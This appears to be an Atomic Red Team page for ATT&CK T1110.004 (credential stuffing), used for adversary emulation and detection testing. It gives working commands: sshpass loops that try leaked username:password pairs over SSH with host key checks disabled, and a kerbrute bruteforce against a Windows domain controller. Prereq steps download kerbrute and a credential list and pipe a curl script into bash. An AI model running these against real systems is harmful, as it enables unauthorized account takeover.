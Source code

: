```yaml
---
tags: [T1110_004, atomic_test]
filename: "[[T1110.004|T1110.004 - Brute Force: Credential Stuffing]]"
---
```

# T1110.004 - Brute Force: Credential Stuffing

## Atomic Test #1 - SSH Credential Stuffing From Linux
Using username,password combination from a password dump to login over SSH.

**Supported Platforms:** Linux


**auto_generated_guid:** 4f08197a-2a8a-472d-9589-cd2895ef22ad





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | string | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cp "$PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt" /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires SSHPASS
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
if [ $(cat /etc/os-release | grep -i ID=ubuntu) ] || [ $(cat /etc/os-release | grep -i ID=kali) ]; then sudo apt update && sudo apt install sshpass -y; else echo "This test requires sshpass" ; fi ;
```




<br/>
<br/>

## Atomic Test #2 - SSH Credential Stuffing From MacOS
Using username,password combination from a password dump to login over SSH.

**Supported Platforms:** macOS


**auto_generated_guid:** d546a3d9-0be5-40c7-ad82-5a7d79e1b66b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | string | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cp "$PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt" /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires SSHPASS
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/e8114640740938c20cc41ffdbf07816b428afc49/install.sh)"
brew install hudochenkov/sshpass/sshpass
```




<br/>
<br/>

## Atomic Test #3 - SSH Credential Stuffing From FreeBSD
Using username,password combination from a password dump to login over SSH.

**Supported Platforms:** Linux


**auto_generated_guid:** a790d50e-7ebf-48de-8daa-d9367e0911d4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | string | localhost|


#### Attack Commands: Run with `sh`! 


```sh
cp $PathToAtomicsFolder/T1110.004/src/credstuffuserpass.txt /tmp/
for unamepass in $(cat /tmp/credstuffuserpass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `sh`!
##### Description: Requires SSHPASS
##### Check Prereq Commands:
```sh
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
pkg install -y sshpass
```




<br/>
<br/>

## Atomic Test #4 - Brute Force:Credential Stuffing using Kerbrute Tool
Will read username and password combos from a file or stdin (format username:password) and perform a bruteforce attack

**Supported Platforms:** Windows


**auto_generated_guid:** 4852c630-87a9-409b-bb5e-5dc12c9ebcde





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domaincontroller | Domain controller where test will be run | string | $ENV:userdnsdomain|
| domain | Domain where you will be testing | string | $ENV:userdomain|


#### Attack Commands: Run with `powershell`! 


```powershell
cd "PathToAtomicsFolder\..\ExternalPayloads"
.\kerbrute.exe bruteforce --dc #{domaincontroller} -d #{domain} "PathToAtomicsFolder\..\ExternalPayloads\bruteforce.txt"
```




#### Dependencies:  Run with `powershell`!
##### Description: kerbrute.exe must exist in PathToAtomicsFolder\..\ExternalPayloads
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_386.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"
```
##### Description: bruteforce.txt must exist in PathToAtomicsFolder\..\ExternalPayloads
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\bruteforce.txt"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1110.004/src/bruteforce.txt?raw=true" -outfile "PathToAtomicsFolder\..\ExternalPayloads\bruteforce.txt"
```




<br/>
